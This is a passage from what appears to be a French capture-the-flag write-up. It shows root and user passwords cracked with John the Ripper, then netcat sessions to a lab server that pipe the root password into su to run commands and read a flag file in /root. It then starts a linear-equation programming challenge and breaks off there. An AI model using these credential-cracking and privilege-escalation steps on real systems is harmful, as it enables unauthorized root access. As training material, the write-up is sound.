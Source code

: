 ```bash
$ john --show /tmp/hashes 
root:jumpingjacks77:0:0:root:/root:/bin/bash
noob:noob:1000:1000::/home/noob:/bin/bash

2 password hashes cracked, 0 left
```

```bash
$ nc 10.22.6.101 15001
Send me something.
echo jumpingjacks77|su -c whoami
root

$ nc 10.22.6.101 15001
Send me something.
echo jumpingjacks77|su -c 'ls -l /root'
total 4
-r-------- 1 root root 28 Feb 20 18:35 cd5b272bcc6f4797cb6523ec8cae0.txt

$ nc 10.22.6.101 15001
Send me something.
echo jumpingjacks77|su -c 'cat /root/cd5b272bcc6f4797cb6523ec8cae0.txt'
HSR{Y0u_ar3_aN_UN1X_Exp3RT}
```

On obtient: `HSR{Y0u_ar3_aN_UN1X_Exp3RT}`

<br>
<hr>
<br>

# [Programming] Mathematician

## Consignes

```bash
Are you good at solving equations ? 

nc 10.22.6.101 15003

infos:
type(PASSWORD) --> string
PASSWORD[0] = ord(first letter of password)
```

## Résolution

```
$ nc 10.22.6.101 15003
[*] Objectif: Resoudre le systeme d'equation afin de retrouver le mot de passe...
[-->] 
[+] -31*PASSWORD[0] + -88*PASSWORD[1] + -25*PASSWORD[2] + -18*PASSWORD[3] + 26*PASSWORD[4] + -98*PASSWORD[5] + -18*PASSWORD[6] + 37*PASSWORD[7] + 82*PASSWORD[8] + 66*PASSWORD[9] + 59*PASSWORD[10] + 51*PASSWORD[11] + 1*PASSWORD[12] + 50*PASSWORD[13] + -3*PASSWORD[14] + 41*PASSWORD[15] + 88*PASSWORD[16] + -68*PASSWORD[17] + 52*PASSWORD[18] + -72*PASSWORD[19] + -43*PASSWORD[20] + 6*PASSWORD[21] + 20*PASSWORD[22] + 47*PASSWORD[23] + 43*PASSWORD[24] + -78*PASSWORD[25] + -95*PASSWORD[26] + -56*PASSWORD[27] + -94*PASSWORD[28] + 59*PASSWORD[29] + -13*PASSWORD[30] + 23*PASSWORD[31] + -11*PASSWORD[32] + 62*PASSWORD[33] + -28*PASSWORD[34] + 13*PASSWORD[35] + -83*PASSWORD[36] + 97*PASSWORD[37] + -39*PASSWORD[38] + 9*PASSWORD[39] = -8091
...
```